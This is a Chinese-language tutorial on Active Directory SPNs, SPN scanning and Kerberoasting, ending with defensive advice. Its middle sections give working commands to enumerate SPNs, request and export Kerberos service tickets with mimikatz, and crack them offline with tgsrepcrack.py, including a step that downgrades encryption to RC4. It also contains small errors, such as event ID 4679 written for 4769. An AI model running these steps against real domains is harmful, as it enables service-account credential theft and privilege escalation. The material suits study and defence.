










# 服务主体名称SPN

SPN(ServicePrincipal Names)服务主体名称，是服务示例(如:HTTP,SMB,Exchange等服务)的唯一标识符。Kerberos身份验证使用SPN将服务实例与服务登陆账户相关联。**如果在整个林或域中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN。**如果客户端使用多个名称进行身份验证，则给定服务实例可以具有多个SPN。SPN始终包含运行服务实例的主机名，因此服务实例可以为其主机的每个名称或别名注册SPN。**一个用户账户下可以具有多个SPN，但一个SPN只能注册到一个账户。**如果想使用Kerberos协议来认证服务，那么必须正确配置SPN。

## 1.SPN 简介

 Windows域环境是基于微软的活动目录服务工作的，它在网络系统环境中将物理位置分散、所属部门不同的用户进行分组，集中资源，有效地对资源访问控制权限进行细粒度的分配，提高了网络环境的安全性及网络资源统一分配管理的便利性。在域环境中运行的大量应用包含了多种资源，为资源的合理分组、分类和再分配提供了便利。微软给域内的每种资源分配了不同的**服务主体名称(Service Principal Name, SPN)**

在使用Kerberos协议进行身份验证的网络中，必须在内置账号(NetworkService、LocalSystem)或者用户账号下为服务器注册SPN。对于内置账号，SPN将自动进行注册。但是，如果在域用户下运行服务，则必须为要使用的账号手动注册SPN。因为域环境中的每台服务器都需要在Kerberos身份验证服务中注册SPN，所以攻击者会直接向域控制器发送查询请求，获取其需要的服务的SPN，从而知晓其需要使用的服务资源在哪台机器上。

### 1.1 SPN分类

当计算机加入域时,主 SPN 会自动添加到域的计算机账号的ServicePrincipalName 属性中。在安装新的服务后，SPN 也会被记录在计算机账号的相应属性中。

SPN 分为两种：一种注册在 AD 上机器帐户(Computers)下，也就是上面提到的内置账号，另一种注册在域用户帐户(Users)下

1. 当一个服务的权限为 Local System 或 Network Service，则 SPN 注册在机器帐户(Computers)下。典型 SPN：例如，`HOST/computername`，`RPC/computername`，这些 SPN 是系统自动分配的。
2. 当一个服务的权限为一个域用户，则SPN注册在域用户帐户(Users)下。典型 SPN：如 `MSSQLSvc/dbserver.xie.com:1433`，这是为运行在域用户账户下的 SQL Server 服务注册的 SPN。

> 机器帐户 ：  在 Windows 域环境中，机器账户（Machine Accounts）是 Active Directory 为每台加入域的计算机创建的账户。每个机器账户在域中都有一个对应的对象（通常位于 CN=Computers 容器下），并且用于计算机与域控制器之间进行身份验证和安全通信。名称通常以计算机名加 $ 结尾。
> 
> 域用户帐户  ： 主要用于日常的操作和资源访问，权限受到限制，以确保系统安全并防止误操作或恶意活动。
> 
> |属性|机器账户|域用户账户|
> |:--|--|--|
> |创建方式|自动创建，当计算机加入域时生成|由管理员手动创建，用于标识用户|
> |命名格式|计算机名 + `$`，如 `WIN10-PC$`|用户定义的名称，如 j.smith|
> |密码管理|系统自动管理，默认每 30 天更新|用户或管理员管理，可根据策略要求定期更改|
> |登录能力|无法直接用于登录计算机，仅用于计算机认证|用于用户登录计算机和访问域内资源|
> |权限|机器账户的权限主要用于计算机级别的操作，比如通过 Kerberos 认证与域控制器交互，执行组策略，访问域中的资源（如文件共享）。它不能用来直接登录域中的计算机。|用户账户可以登录到域中的任何计算机，并根据分配的权限访问文件共享、打印机、数据库和其他网络资源。管理员可以通过组策略对域用户账户的权限进行细粒度控制。|

### 1.2 SPN 的配置

SPN 在注册它的林中必须是唯一的。 如果它不唯一，身份验证将失败。 SPN语法包含四个元素：两个必需的元素和两个其他元素。如有必要，可以使用这些元素生成下表中列出的唯一名称。如下是 SPN 的格式：

```
<service class>/<host>:<port>/<service name>
```

- service class：服务类，用于标识服务常规类的字符串;例如，"HOST"。 有一些已知的服务类名称，例如 Web 服务的"WWW"或目录服务的"LDAP"。 一般情况下，可以是服务类唯一的任何字符串。 请注意，SPN 语法使用正斜杠 (/)分隔元素，因此此字符不能出现在服务类名中。
- host：运行服务的计算机的名称。 这可以是完全限定的 DNS 名称(FQDN)或NetBIOS 名称。 请注意，不确保 NetBIOS 名称在林中是唯一的，因此，包含 NetBIOS 名称的 SPN 可能不是唯一的。
- port：一个可选端口号，用于区分单个主计算机上同一服务类的多个实例。 如果服务使用服务类的默认端口，则省略此组件。
- service name:：可复制服务 SPN 中使用的可选名称，用于标识服务或服务所服务的域提供的数据或服务。

<br/>

<br/>

<br/>

## 2.SPN 扫描

SPN扫描也称为”**扫描Kerberos服务实例名称**”。在活动目录中发现服务的最佳方法就是SPN扫描。**SPN扫描通过请求特定SPN类型的服务主体名称来查找服务**。与网络端口扫描相比，SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口(不会因为触发内网中的IPS、IDS等设备的规则而产生大量的警告日志)。因为**SPN查询是Kerberos票据行为的一部分**，所以检测难度很大。

> 1.Kerberos 使用 SPN 来标识服务实例
> 
> Kerberos 认证机制中，客户端通过 SPN 来请求特定服务的访问权限。SPN 是在域中唯一标识某个服务实例的名称，当客户端想要与服务进行通信时，它必须指定该服务的 SPN。`Kerberos KDC（Key Distribution Center）`通过 SPN 找到服务实例并为客户端生成服务票据 (Service Ticket)。例如，客户端请求访问运行在 server.example.com 上的 SQL Server 服务时，它会使用 SPN `MSSQLSvc/server.example.com:1433` 来标识该服务实例。
> 
> 因此，扫描 SPN 实际上是在收集可以通过 Kerberos 认证的 服务实例
> 
> 2.SPN 表示服务实例的具体配置
> 
> 不同的服务实例（如 SQL Server、Exchange Server、Web 服务等）在域中可能运行在不同的服务器或端口上，SPN 中会包含这些具体信息。因此，通过扫描 SPN，管理员或攻击者可以识别哪些服务实例在什么服务器或端口上运行。例如，`MSSQLSvc/server.example.com:1433` 表示运行在 server.example.com 主机上、端口 1433 的 SQL Server 实例。
> 
> 通过扫描 SPN，能够获得这些具体的服务信息，从而了解网络中的服务配置情况。

### 2.1 SPN 命令格式

```
SPN = serviceclass "/" hostname [":"port] ["/" servicename]

serviceclass：服务组件的名称
hostname：以”/”与后面的名称分隔，是计算机的FQDN(全限定域名，同时带有计算机名和域名)。
port：以冒号分隔，后面的内容为该服务监听的端口号。
servicename：一个字符串，可以是服务的专有名称(DN)、objectGuid、Internet主机名或全限定域名。

# MSSQL 服务
MSSQLSvc/computer1.pentest.com:1443

# Exchange 服务
exchangeMDB/computer1.pentest.com

# RDP服务
TERMSRV/EXCAS01.pentest.com

# WSMan/WinRM/PSRemoting服务
WSMAN/EXCAS01.pentest.com
```

### 2.2 SPN 查询

```
# 查看当前域内所有的SPN
setspn -q */*

# 如果在域林中，则可以使用如下命令查看指定域 test.lab 内的 SPN。如果指定域不存在，则默认切换到查找本域的 SPN
setspn -T test.lab -q */*

#删除指定 SPN：
setspn -D MySQL/win7.xie.com:1433/MSSQL hack

#查找指定用户/主机名注册的 SPN
setspn -L username/hostname
```



### 2.3 Powershell 下的 SPN 扫描

https://github.com/PyroTek3/PowerShell-AD-Recon

```
# 扫描域中所有的 MSSQL 服务
Import-Module .\Discover-PSMSSQLServers.ps1
Discover-PSMSSQLServers

# 扫描域中所有 SPN 信息
Import-Module .\Discover-PSInterestingServices.ps1
Discover-PSInterestingServices

#探测域内注册的 Exchannge 服务的 SPN
Import-Module .\Discover-PSMSExchangeServers.ps1
Discover-PSMSExchangeServers
```

v



## 3.SPN 扫描和破解TGS Tickets

注：域内的任何一台主机用户或普通域用户，都可以通过查询SPN，向域内的所有服务请求TGS，然后进行暴力破解，但是对于破解出的明文，**只有域用户的是可以利用的，机器账户的不能用于远程连接，所以我们的关注点主要就在域用户下注册的SPN。**

### 3.1 注册 SPN

在客户端使用 SPN 对服务实例进行身份验证之前，必须在服务实例上将用于登录的用户或计算机帐户注册 SPN。 通常，SPN 注册由通过域管理员权限运行的服务安装程序来完成。但是我们也可以手动使用 Setspn.exe 程序来注册 SPN，setspn.exe 是 Windows 自带的一个二进制文件，该二进制文件可以用于 SPN 的查看、添加和删除。

```
# 手动注册
# 为 SQL Server 服务帐户注册 SPN
setspn -A MSSQLSvc/Win7.test.lab:1433 sqlsvc

# 查看用户所对应的 SPN 
setspn.exe -L test.lab\sqlsvc

# SPN 查询所有票据
setspn -q */* | findstr "MSSQLSvc"

# 在 AD 上为用户 sqlsvc 指定服务登陆权限。
gpedit.msc -- 计算机配置 -- Windows 设置 -- 安全设置 -- 本地策略 -- 用户权限分配 -- 作为服务登录：添加相关用户

# 本地修改默认 Kerberos 会话密钥类型为 AES256_HMAC 无法通过tgsrepcrack.py 破解，需要将会话密钥改成 RC4_HMAC_MD5 才能利用脚本破解。
gpedit.msc -- 计算机配置 -- Windows 设置 -- 安全设置 -- 本地策略 -- 安全选项 -- 网络安全：配置 Kerberos 允许的加密类型
```







### 3.2 请求 SPN Kerberos 票据

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Win7.test.lab:1433"

# 查看缓存中的票据
klist
# 删除缓存票据
klist purge
```





### 3.3 导出 SPN Kerberos 票据

```
# 在 mimikatz 中执行：
kerberos::list /export
```



### 3.4 利用脚本离线破解票据中所对应的 NTLM Hash

https://github.com/nidem/kerberoast

```
python tgsrepcrack.py 1.txt "1-40a10000-test01@MSSQLSvc~Win7.test.lab~1433-TEST.LAB.kirbi"
```



### 3.5 SPN 中的 Kerberoast 攻击防范

- 确保服务账号密码为强密码(长度、随机性、定期修改)
- 如果攻击者无法将默认的AES256_HMAC加密方式改为RC4_HMAC_MD5，就无法实验tgsrepcrack.py来破解密码。
- 攻击者可以通过嗅探的方法抓取Kerberos TGS票据。因此，如果强制实验AES256_HMAC方式对Kerberos票据进行加密，那么，即使攻击者获取了Kerberos票据，也无法将其破解，从而保证了活动目录的安全性。
- 许多服务账户在内网中被分配了过高的权限，且密码强度较差。攻击者很可能通过破解票据的密码，从域用户权限提升到域管理员权限。因此，应该对服务账户的权限进行适当的配置，并提高密码的强度。
- 在进行日志审计时，可以重点关注**ID为4679(请求Kerberos服务票据)的时间**。如果有过多的 4769 日志，应进一步检查系统中是否存在恶意行为。
  
  